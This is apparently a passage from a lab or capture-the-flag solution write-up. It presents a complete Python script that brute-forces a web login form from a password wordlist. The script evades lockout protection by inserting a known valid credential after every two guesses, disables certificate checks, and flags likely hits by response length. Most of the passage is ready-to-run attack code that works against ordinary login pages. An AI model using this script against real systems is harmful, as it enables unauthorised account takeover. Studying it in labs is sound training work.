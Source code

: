 ### Solution #1 - Brute-force using python requests
In python this is relatively easily scriptable by using 2 for loop cycles.

```py
import requests
import sys

requests.urllib3.disable_warnings()

def bruteforce(target, cycles, password_list, username, working_credz):
    for password in password_list:
        if ":" in password:
            credentials_split = password.split(":")
            password = credentials_split[1]
            username = credentials_split[0]
        else:
            username=username
            password=password
        session = requests.Session()
        session.verify = False
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username":username, "password":password} 
        s = requests.post(target, data=data, headers=headers)
        if username not in working_credz:
            print("(+) tried %s:%s; Content-Length: %s" %(username,password,s.headers['Content-length']))
            #print(s.headers)
            #print(r.text)
    return 0

def main():
    if len(sys.argv) != 6:
        print("(!) usage: %s <target> <wordlist> <cycles> <working_credentials> <username>" % sys.argv[0])
        print("(!) eg: %s https://target.tld/login ./passwords 2 'user:pass' username" % sys.argv[0])
        sys.exit(-1)
    
    target = str(sys.argv[1])
    wordlist = str(sys.argv[2])
    cycles = int(sys.argv[3])
    working_credz = str(sys.argv[4])
    username = str(sys.argv[5])
    
    print("(+) Target: %s; Wordlist: %s; Cycles before using working credentials: %s; Working Credentials: '%s'; Bruteforcing user: %s" % (target,wordlist,cycles,working_credz,username))

    with open(wordlist) as f:
        passwords = [line.rstrip() for line in f]
        # List needs to be initialy set and should be reset every 3rd turn, but this will be done in for loop
        password_list=[]
        for password in passwords:
            password_list.append(password)
            if len(password_list) == 2:
                password_list.append(working_credz)
                #print("(+) Batch: %s" %(password_list))
                bruteforce_session = bruteforce(target, cycles, password_list, username, working_credz)
                password_list=[]
            else:
                continue
        print("\n(+) All passwords have been checked!")
```